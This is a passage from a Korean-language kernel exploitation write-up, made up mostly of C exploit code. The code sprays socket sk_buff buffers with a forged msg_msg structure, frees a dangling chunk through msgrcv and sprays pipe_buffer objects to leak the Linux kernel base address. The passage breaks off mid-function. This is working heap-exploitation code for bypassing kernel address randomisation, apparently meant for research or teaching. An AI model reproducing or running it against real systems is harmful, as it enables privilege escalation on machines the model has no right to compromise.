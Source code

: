 ```c
    return kernel_base_addr;
```

이 과정을 모두 포함하면 다음과 같다. 

```c
void sk_buff_clean()
{
    int i, j;
    char read_buffer[1024];
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (read(socket_fd[i][1], read_buffer, 1024 - 0x140) < 0)
            {
                perror("sk_buff_clean: sk_buff read failed\n");
                exit(0);
            }
        }
    }
}

uint64_t leak_base_addr(uint64_t leaked_heap_addr)
{
    uint8_t read_buffer[4096] = {0,};
    uint64_t kernel_base_addr = 0;
    uint64_t anon_pipe_buf_ops_addr = 0;
    struct msg_msg* sk_buff = (struct msg_msg*)malloc(SK_BUFF_SPRAY_SIZE);
    int i, j;

    printf("leak_base_addr: clean sk_buff\n");
    sk_buff_clean();
    printf("leak_base_addr: reallocate sk_buff which looks like real chunk\n");

    sk_buff->m_list.next = leaked_heap_addr;
    sk_buff->m_list.prev = leaked_heap_addr;
    sk_buff->m_type = MSG_TYPE_FAKE;
    sk_buff->m_ts = SPRAY_SIZE_KMALLOC_1024;
    sk_buff->next = 0;
    sk_buff->security = 0;
    
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (write(socket_fd[i][0], (void*)sk_buff, SK_BUFF_SPRAY_SIZE) < 0)
            {
                perror("sk_buff_spray: failed write buffer");
                exit(0);
            }
        }
    }

    printf("leak_base_addr: free dangling chunk with msg_msg\n");
    msgrcv(spray_queue[corrupted_queue_index], read_buffer,  SPRAY_SIZE_KMALLOC_1024, MSG_TYPE_FAKE, IPC_NOWAIT);

    printf("leak_base_addr: spray pipe_buffer\n");
    for (i = 0; i < SPRAY_PIPE_FDCNT; i++)
    {
        if(pipe(pipe_fds[i]) < 0)
        {
            perror("leak_base_addr: failed create pipe\n");
```